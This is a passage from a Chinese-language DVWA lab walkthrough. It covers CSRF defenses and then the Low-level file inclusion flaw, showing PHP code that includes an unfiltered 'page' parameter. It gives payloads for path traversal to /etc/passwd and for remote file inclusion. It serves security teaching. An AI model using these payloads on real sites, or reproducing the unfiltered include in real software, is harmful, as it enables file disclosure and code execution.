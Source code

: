 这里相对于 High 级别主要就是增加了输入当前密码的选项，这个在实战中还是一种比较主流的防护方式，攻击者不知道原始密码的情况下是无法发起 CSRF 攻击的，另外常见的防护方法还有加验证码来防护。



![img](https://image.3001.net/images/20200527/1590538798248.png)



# File Inclusion 文件包含

## Low

最原始的文件包含：





php

```php
<?php
$file = $_GET[ 'page' ];

if( isset( $file ) )
    include( $file );
else {
    header( 'Location:?page=include.php' );
    exit;
}
?>
```

page 参数没有任何过滤，然后直接被 include 包含进来，造成文件包含漏洞的产生。

这种情况下有各种各样的攻击方式，因为是 DVWA 靶场的原因，很多种攻击条件都满足，忍不住下面来简单演示一下：

1. **文件读取**





payload

```payload
/fi/?page=/etc/passwd
/fi/?page=../../../../../../../../../etc/passwd
```

1. **远程文件包含**

实际生产环境中基本上很难遇到远程文件包含，因为这里是 DVWA 靶场，所以漏洞比较多。





payload

```payload
/fi/?page=http://www.baidu.com/robots.txt
```
